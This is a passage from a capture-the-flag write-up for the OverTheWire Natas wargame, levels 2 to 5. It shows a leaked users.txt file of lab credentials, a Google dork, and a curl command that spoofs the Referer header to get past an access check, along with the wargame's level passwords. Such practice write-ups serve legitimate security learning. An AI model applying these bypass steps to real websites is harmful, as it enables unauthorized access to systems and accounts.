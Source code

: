 There is an image *pixel.png* inside files directory, if we look at that directory we notice a file called users.txt:

```
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Natas 3

Same message, we view source code we notice this comment:

```
<!-- No more information leaks!! Not even Google will find it this time... -->
```

Hmm, smells like we need to use Google Dork: 

```
site:natas3.natas.labs.overthewire.org
```

![natas3](/images/overthewire_natas/natas3.png)

Inside s3cr3t directory there's a users.txt file containing the password for the next level:

```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Natas 4

It says Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/". We can bypass this by sending `Referer HTTP HEADER` containing: `http://natas5.natas.labs.overthewire.org/`:

```
 curl http://natas4.natas.labs.overthewire.org/ -H "Referer: http://natas5.natas.labs.overthewire.org/" -H "Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va"
```

![natas4](/images/overthewire_natas/natas4.png)

Password: `iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

## Natas 5

Access disallowed. You are not logged in. It seems we're dealing with sessions, let's take a look at cookies:

![natas5](/images/overthewire_natas/natas5_0.png)

